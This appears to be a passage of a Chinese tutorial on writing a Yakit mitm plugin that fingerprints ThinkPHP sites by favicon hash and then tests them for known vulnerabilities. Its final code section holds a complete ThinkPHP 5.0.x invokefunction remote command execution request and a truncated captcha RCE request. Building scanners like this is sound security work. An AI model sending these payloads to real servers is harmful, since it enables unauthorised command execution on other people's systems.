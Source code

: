 在poc.HTTP支持使用fuzz标签

## 持久化

 yak的risk库可以对数据持久化

例如：

```go
risk.NewRisk("https://www.baidu.com", risk.title("html源码泄露"), risk.type("敏感信息泄露"),risk.level("高危"))
```

## mitm插件编写

mitm模块主要提供了5个hook方法，创建新插件时的模板有详细的注解介绍

因为每个网站只需要检测一次，所以选用`mirrorNewWebsite`方法（每当出现一个新网站时，此方法会被调用）

由于用户正常访问网站时，也会对favicon.ico进行获取，所以可以在`mirrorNewWebsitePath`方法中直接拿到favicon.ico，计算hash进行判断，相比在`mirrorNewWebsite`方法中使用`http.RequestFaviconHash`获取hash，减少了一次对favicon.ico的请求

代码如下

```go
rootUrl = str.ParseStringUrlToWebsiteRootPath(url)
// 手动对favicon.ico的hash计算方法就是，先base64，再MMH3Hash32计算
if str.EndsWith(url, "favicon.ico") && codec.MMH3Hash32(codec.EncodeBase64(rsp)) == "1165838194"{
    testExp(rootUrl)
}
```

上面这方法调试发现，即使是第一次访问的网站，有时浏览器不会请求favicon.ico

所以还是用常规的`http.RequestFaviconHash`方法去获取hash

## 最终代码

```go
payloads = [
    {
        "name":"thinkphp5.0.23 5.0.7 ~ 5.0.23命令执行",
        "payload":`GET /index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]={{url({{params(cmd)}})}} HTTP/1.1
Host: {{params(target)}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Length: 0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36

`},

{
    "name":"Thinkphp captcha命令执行",
    "payload":`POST /index.php HTTP/1.1
Host: {{params(target)}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: no-cache
Connection: close
Content-Length: 52
```